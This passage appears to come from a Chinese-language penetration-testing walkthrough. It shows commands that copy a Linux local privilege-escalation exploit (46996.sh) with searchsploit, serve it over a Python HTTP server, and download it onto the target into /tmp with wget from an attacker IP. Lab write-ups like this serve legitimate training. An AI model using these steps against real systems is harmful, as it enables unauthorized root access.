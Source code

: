 #### ![image-20250314142731692](assets/image-20250314142731692.png)下载该提权脚本

```
sudo searchsploit -m linux/local/46996.sh
```

![image-20250314142814460](assets/image-20250314142814460.png)



#### 本地开启http服务

```
sudo python -m http.server
```

![image-20250314143016064](assets/image-20250314143016064.png)



#### wget下载

```
cd /tmp
wget 192.168.1.3:8000/46996.sh
```

![image-20250314143002709](assets/image-20250314143002709.png)
